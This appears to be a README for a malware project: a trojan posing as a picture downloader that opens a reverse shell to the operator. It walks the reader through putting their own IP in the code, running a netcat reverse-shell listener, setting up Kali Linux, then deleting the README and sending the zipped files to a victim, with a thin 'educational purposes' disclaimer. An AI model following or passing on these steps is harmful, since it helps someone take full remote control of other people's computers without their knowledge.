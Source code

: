 This is a bit of a complicated malware so some modifications need to be made.

==================================================================================

The modifications are:

1. Set the value of the errorserver variable in the ErrorHandler64 to your IP address, which you can find by googling "what is my IP address?".

2. Set the value of the errorid to any number under 1000. we recommend 80 or 443. Remember this number.

After you are done with these steps, you have to do one more step:
You must have a linux server running this command during the execution of the virus code:
stty raw -echo; (stty size; cat) | nc -lvnp $port
replace $port in this command with the number you chose earlier.

Don't have a linux server? no problem. You can open one for free by:
1. open microsoft store
2. Search for kali linux
3. Download it
4. Open it
5. Follow the on screen instructions
6. Type sudo apt update
7. sudo apt upgrade -y
8. Done!

=======================================================================================================

Before sending the virus:
1. remove this file
2. zip the two virus files
3. send the zip folder

=====================================

How to run the malware:
WARNING! It is strictly advised to not run the malware for your own safety.
We are not responsible for any damage caused by running of the malware.
The malware has been developed purely for educational purposes.

====================

Instructions:
1. Run File Downloader.py

==============================

What the malware does:
The malware acts as a downloader of pictures, and then establishes a reverse shell with the target computer, giving you full access to their shell.
